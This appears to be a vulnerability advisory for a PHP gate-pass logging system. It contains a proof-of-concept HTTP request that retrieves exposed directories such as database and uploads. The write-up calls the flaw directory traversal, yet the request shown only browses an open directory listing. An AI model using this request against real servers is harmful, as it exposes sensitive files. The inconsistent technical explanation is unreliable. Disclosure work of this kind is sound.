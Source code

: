 ## Employee and visitor pass logging system exposed to directory traversal vulnerability

## Affected version: 
Employee and visitor pass logging system - 1.0

## Vendor:
https://www.sourcecodester.com/users/tips23

## Software:
https://www.sourcecodester.com/php/15026/employee-and-visitor-gate-pass-logging-system-php-source-code.html

## Vulnerability File:
/employee_gatepass/database/
/employee_gatepass/dist/
/employee_gatepass/libs/
/employee_gatepass/uploads/
## Description:
The employee and visitor pass login system 1.0 has an unrestricted directory traversal attack, the attack method is /employee_gatepass/database/
/employee_gatepass/dist/
/employee_gatepass/libs/
/employee_gatepass/uploads/. Accessing the following route will allow unrestricted access to any file in the directory and can directly download it, thereby obtaining sensitive information from the server.
Status: CRITICAL

POC
```
GET /employee_gatepass/dist/ HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=4bo37p217s2osfnh7ovs48s6p9
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```
![CleanShot 2025-03-13 at 19 53 03@2x](https://github.com/user-attachments/assets/bb102094-1a57-4622-9c31-7680683b75e0)

![CleanShot 2025-03-13 at 19 53 22@2x](https://github.com/user-attachments/assets/c52cbf4d-3152-4a4b-a165-28299fd2060c)


## code analysis:

The program does not adequately filter directory jump characters such as ../ entered by users, allowing malicious users to traverse any files on the server by submitting directory jumps.
![CleanShot 2025-03-13 at 19 55 21@2x](https://github.com/user-attachments/assets/858666c8-94b8-460f-b8ba-684e20cfbba3)
![CleanShot 2025-03-13 at 19 56 57@2x](https://github.com/user-attachments/assets/982c3f8b-df7e-419e-95cb-352c03c3487c)



